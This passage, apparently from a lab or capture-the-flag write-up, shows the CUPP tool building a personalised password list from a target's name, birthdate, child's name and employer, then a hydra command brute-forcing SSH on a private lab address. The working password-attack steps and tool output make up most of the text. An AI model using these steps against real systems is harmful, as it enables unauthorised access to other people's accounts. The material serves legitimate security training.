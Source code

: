 This means that to bruteforce SSH we will need to generate a new custom dictionary for the attack:

``` bash
cupp -i

   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: michael
> Surname: 
> Nickname: 
> Birthdate (DDMMYYYY): 19101996


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: Ahmed
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: Animetronics


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: Yasser,Adam,swimming,27
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to michael.txt, counting 13214 words.
[+] Now load your pistolero with michael.txt and shoot! Good luck!
```

Now we can attack with hydra such as with:

``` bash
hydra -l michael -P michael.txt ssh://192.168.56.110
```
